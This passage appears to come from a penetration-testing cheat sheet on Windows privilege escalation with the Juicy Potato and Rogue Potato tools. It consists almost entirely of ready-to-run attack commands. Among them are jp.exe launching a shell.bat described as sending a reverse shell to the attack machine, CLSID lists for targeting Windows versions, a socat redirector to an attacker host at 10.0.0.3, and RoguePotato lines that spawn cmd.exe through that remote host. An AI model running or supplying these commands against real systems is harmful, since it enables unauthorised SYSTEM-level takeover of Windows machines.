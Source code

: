 ```
./jp.exe -t * -p shell.bat -l 4545

-t: Create process call. For this option we’ll use * to test both options.

-p: The program to run. We’ll need to create a file that sends a reverse shell back to our attack machine.

-l: COM server listen port. This can be anything. We’ll use 4545.
```

If the above command fails then you need to provide the CLSID. **CLSID List -**

* [Windows 7 Enterprise](https://ohpe.it/juicy-potato/CLSID/Windows\_7\_Enterprise)
* [Windows 8.1 Enterprise](https://ohpe.it/juicy-potato/CLSID/Windows\_8.1\_Enterprise)
* [Windows 10 Enterprise](https://ohpe.it/juicy-potato/CLSID/Windows\_10\_Enterprise)
* [Windows 10 Professional](https://ohpe.it/juicy-potato/CLSID/Windows\_10\_Pro)
* [Windows Server 2008 R2 Enterprise](https://ohpe.it/juicy-potato/CLSID/Windows\_Server\_2008\_R2\_Enterprise)
* [Windows Server 2012 Datacenter](https://ohpe.it/juicy-potato/CLSID/Windows\_Server\_2012\_Datacenter)
* [Windows Server 2016 Standard](https://ohpe.it/juicy-potato/CLSID/Windows\_Server\_2016\_Standard)

Then execute

```
./jp.exe -t * -p shell.bat -l 4545 -c {e60687f7-01a1-40aa-86ac-db1cbf673334}
```

**Rogue Potato**

Link to download

```
https://github.com/antonioCoco/RoguePotato
```

Usage

**Network redirector / port forwarder to run on your remote machine, must use port 135 as src port**

```
socat tcp-listen:135,reuseaddr,fork tcp:10.0.0.3:9999
```

**RoguePotato without running RogueOxidResolver locally. You should run the RogueOxidResolver.exe on your remote machine. Use this if you have fw restrictions.**

```
RoguePotato.exe -r 10.0.0.3 -e "C:\windows\system32\cmd.exe"
```

**RoguePotato all in one with RogueOxidResolver running locally on port 9999**

```
RoguePotato.exe -r 10.0.0.3 -e "C:\windows\system32\cmd.exe" -l 9999
```
